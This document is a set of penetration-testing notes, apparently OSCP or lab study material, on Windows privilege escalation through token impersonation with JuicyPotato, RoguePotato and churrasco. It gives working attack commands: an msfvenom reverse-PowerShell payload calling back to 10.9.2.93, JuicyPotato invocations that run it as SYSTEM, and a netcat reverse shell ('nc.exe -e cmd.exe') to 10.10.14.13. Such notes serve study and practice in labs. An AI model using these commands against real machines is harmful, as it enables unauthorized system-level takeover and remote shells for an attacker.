 
----

<center><h1>SeLoadDriverPrivilege Privesc</h1></center>

[SeLoadDriverPrivilege](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#seloaddriverprivilege)


<center><h1>Token Impersonation - Rotten/Juicy Potato</h1></center>

If you have the permissions `SeAssignPrimaryTokenPrivilege` and `SeImpersonatePrivilege` then you can use this to get the reverse shell.

For Juicy potato you might need CLSID which you can find list [here](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) to get one or for direct you can see this [Video](https://youtu.be/EkFUzbBSXBo).
For juicy potato make windows Bat shell (==PowerShell Dependent==)
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.9.2.93 lport=9999 > shell.bat
```
Start the JuicyPotato:
```bash
# Enter -l different port number as you will get the shell on 9999 itself
jp.exe -t * -p shell.bat  -l 4444
# or With CLSID
jp.exe -l 1337 -p shell.bat -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

# Command execute
JuicyPotato.exe -l 1337 -p cmd.exe -a "/c C:\Windows\Temp\Temp\nc.exe -e cmd.exe 10.10.14.13 443" -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
```
[Usage of RoguePotato](https://0xdf.gitlab.io/2020/09/08/roguepotato-on-remote.html)
[Rogue potato Upgradede (Juicy Potato)](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
[Repo](https://github.com/antonioCoco/RoguePotato)
[Find in OSCP-prep by x3rz](https://github.com/x3rz/OSCP-prep.git)

*Granny*
> Note: On new systems JuicyPotato works fine but on older systems **TokenImpersonation** is abused via **==churrasco exploit==**
> In kali we can find it here: ```file /usr/share/sqlninja/apps/churrasco.exe```
> Exploit Usage: `churrasco.exe -d C:\Temp\shell.exe`

https://github.com/Re4son/Churrasco
https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```text
To escalate privileges a tool called churrasco developed by Cesar Cerrudo is used. This tool takes advantage of an exploit that uses a 
technique that he named as token kidnapping which elevates privileges to a System account by using techniques that impersonate tokens to 
manipulate processes and thread access lists (Cerrudo, 2008). The source code of the tool that affects Windows 2008 was downloaded from 
Cesar Cerrudo’s website and compiled using Visual Studio C++ 2008 Express edition (www.argeniss.com/research/Churrasco2.zip). It is 
important to note that this vulnerability has been patched by Microsoft in Windows 2012 (MS09-12).
```
